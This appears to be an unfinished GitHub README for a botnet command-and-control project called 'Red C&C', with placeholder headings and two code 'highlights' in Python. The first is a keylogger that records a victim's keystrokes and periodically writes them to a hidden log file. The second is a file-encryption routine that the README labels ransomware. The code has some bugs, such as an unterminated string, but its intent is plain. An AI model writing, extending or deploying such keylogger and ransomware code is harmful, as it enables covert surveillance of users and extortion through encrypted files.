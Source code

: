 # Botnet-Command-Control
Explain what our program here!!!

### show how to install VMs & put links to the VM images we used. 

### Show how to initiate Command & Control server & create a symbolic link
```bash
```

## Some of Red C&C's Highlights
### Built-in Keylogger
```python
def on_press(key):
	global LOG
	try:
		LOG += str(key.char)
	except AttributeError:
		if key == key.space:
			LOG += ' '
		elif key == key.enter: LOG += '\n'
		elif key == key.backspace: LOG += ''
		elif key == key.ctrl: LOG += ' ctrl+'
		elif key == key.tab: LOG += '\t
		elif key == key.cmd: LOG += ' cmd+'
		else:
			LOG += str(key)

def log_to_file():
	if SYSTEM == 'Linux':
		f = open(LIN_DIR + 'log.txt', 'w')
		f.write(LOG)
	else:
		f = open(WIN_DIR + 'log.txt', 'w')
		f.write(LOG)
	cycle = Timer(SECONDS_TO_LOG, log_to_file)
	cycle.start()

def keylogger():
	listener = keyboard.Listener(on_press=on_press)
	try:
		if SYSTEM == 'Linux':
			os.mkdir(LIN_DIR)
		else:
			os.mkdir(WIN_DIR)
		log_to_file()
		listener.start()
	except OSError:
		pass
```
### Built-in Rasonware Operations.
```python
def crypto(action, *request):
	key_copy = ''

	def encrypt_it():
		to_encrypt = request
		with open(to_encrypt, 'rb') as inf:
			data = inf.read()
			with open(to_encrypt, 'wb') as ouf:
				key = Fernet.generate_key()
				key_copy = key
				cipher = Fernet(key)
				cipher_text = cipher.encrypt(data)
				ouf.write(cipher_text)
		return r'File encrypted... Key = ' + key_copy + '. Store this key for decryption.'
	
	def decrypt_it():
		to_encrypt, key = request
		with open(to_encrypt, 'rb') as inf:
			data = inf.read()
			with open(to_encrypt, 'wb') as ouf: 
				cipher = Fernet(key)
				plain_text = cipher.decrypt(data)
				ouf.write(plain_text)
		return r'File Decrypted...'
		
	if action == 'encrypt':
		return encrypt_it()
	else:
		return decrypt_it()
```
